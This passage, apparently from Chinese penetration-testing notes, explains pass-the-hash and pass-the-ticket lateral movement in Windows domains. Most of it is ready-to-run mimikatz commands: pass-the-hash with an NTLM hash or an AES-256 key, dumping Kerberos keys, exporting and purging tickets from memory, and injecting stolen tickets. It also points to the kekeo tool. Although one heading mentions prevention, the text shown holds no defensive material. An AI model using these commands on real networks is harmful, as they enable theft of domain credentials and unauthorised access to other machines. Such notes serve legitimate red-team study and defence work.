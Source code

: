 传递NTLM哈希 可以使用mimikatz：

```powershell
mimikatz "privilege::debug" "sekurlsa::pth /user:administrator /domain:hackme.com /ntlmL:D9F9553F143473F54939F5E7E2676128""
```

如果使用的是AES-256密钥传递的话，则目标系统必须安装KB2871997补丁才可以：

先抓取AES-256密钥：

```powershell
mimikatz "privilege::debug" "sekurlsa::ekeys"
```

随后：

```powershell
mimikatz "privilege::debug" "sekurlsa::pth /user:administrator /domain:hackme.com /aes256:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx"
```

但注意，该补丁安装后，只能使用SID为500的用户账号进行横向移动，其它账号都无法进行。

### 票据传递攻击分析与防范

要想使用mimikatz的哈希传递，就必须要本地管理员权限。

如果没有本地管理员权限呢，mimikatz也提供了无需本地管理权限进行横向移动的方法，例如票据传递攻击。

#### 使用mimikatz进行票据传递

导出内存票据：

```powershell
mimikatz "privilege::debug" "sekurlsa::tickets /export"
```

执行后当前目录下会出现多个服务的票据文件，例如krbtgt、cifs、ldap等。

使用mimikatz清楚内存中的票据：

```powershell
mimikatz "kerberos::purge"
```

注入票据：

```powershell
mimikatz "kerberos::ptt" "C:\ticket\xxx.kirbi"
```

将高权限的票据文件注入内存后，可以使用`dir`列出远程计算机系统的文件目录。

#### 使用kekeo进行票据传递

除了`mimikatz`也可以使用`kekeo`实现。

项目地址：[gentilkiwi/kekeo: A little toolbox to play with Microsoft Kerberos in C (github.com)](https://github.com/gentilkiwi/kekeo)

该工具需要使用域名、用户名、NTLM Hash三者配合生成票据，再将票据导入，从而直接连接远程计算机。

